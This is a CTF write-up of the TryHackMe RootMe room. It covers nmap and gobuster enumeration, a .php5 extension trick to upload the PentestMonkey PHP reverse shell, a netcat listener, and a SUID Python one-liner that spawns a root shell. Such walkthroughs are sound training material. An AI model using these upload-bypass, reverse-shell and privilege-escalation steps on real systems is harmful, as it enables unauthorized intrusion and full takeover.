








>> RootMe — TryHackMe Writeup

---

**Platform:** TryHackMe

**Room:** RootMe

**Difficulty:** Easy

**Category:** Web / Privilege Escalation

**Author:** NIGHTFURY0X01(Arash)

--------------------------------------------------

## Challenge Overview

+ In this write-up, I show how to fully complete the RootMe room on TryHackMe.
This is a beginner-level CTF that focuses on basic enumeration, abusing file upload functionality, and privilege escalation.

+ Flags are intentionally not included.

--------------------------------------------------

## Initial Enumeration

- We start with an Nmap scan to identify open ports and running services.

+ Command used:
```bash
nmap -sC -sV <TARGET_IP>
```


Scan Results:
- Port 22: SSH
- Port 80: Apache HTTP Server (Apache 2.4.29)

+ Since a web server is running, we continue with web enumeration.

--------------------------------------------------

## Web Enumeration

+ We use Gobuster to enumerate directories on the web server.

Command used:
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```


+ Discovered directory:
`/panel/`


--------------------------------------------------

## Getting a Shell

+ Visiting `/panel/` reveals a file upload form.

+ Reverse Shell Preparation

+ We use the PHP reverse shell from PentestMonkey:
`http://pentestmonkey.net/tools/web-shells/php-reverse-shell`



+ The shell file is edited to include our TryHackMe VPN IP address and a chosen listening port.

--------------------------------------------------
## File Upload Bypass

+ Uploading a .php file is blocked by the server.
To bypass this restriction, we rename the file extension from .php to .php5.


+ The file is now accepted and uploaded successfully.


--------------------------------------------------

## Reverse Shell

+ We start a Netcat listener on the chosen port.

- Command used:
```bash
nc -lvnp <PORT>
```
- We then navigate to the uploads directory:
```bash
http://<TARGET_IP>/uploads/
```


+ Clicking the uploaded file triggers the reverse shell connection.




--------------------------------------------------

## User Flag

+ After gaining shell access, we enumerate the filesystem.
The user flag is found in:
`/var/www/`


--------------------------------------------------

## Privilege Escalation

+ Since we do not have valid credentials, we search for binaries with the SUID bit set.

- Command used:
```bash
find / -perm -u=s -type f 2>/dev/null
```
- Vulnerable binary found:
`
/usr/bin/python
`



+ According to GTFOBins, Python can be abused for privilege escalation.

--------------------------------------------------

## Root Shell

+ We execute the following command to spawn a root shell:
```python
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
+ This gives us root privileges on the system.

--------------------------------------------------

## Root Flag

+ With root access, the root flag can be read from:
```bash
/root/root.txt
````



--------------------------------------------------

## Conclusion

This room demonstrates:
- Service enumeration with Nmap
- Directory brute-forcing using Gobuster
- File upload bypass techniques
- Reverse shell access
- SUID-based privilege escalation

--------------------------------------------------

**Author:** NIGHTFURY0X01(Arash)
**Platform:** TryHackMe
**Room:** RootMe
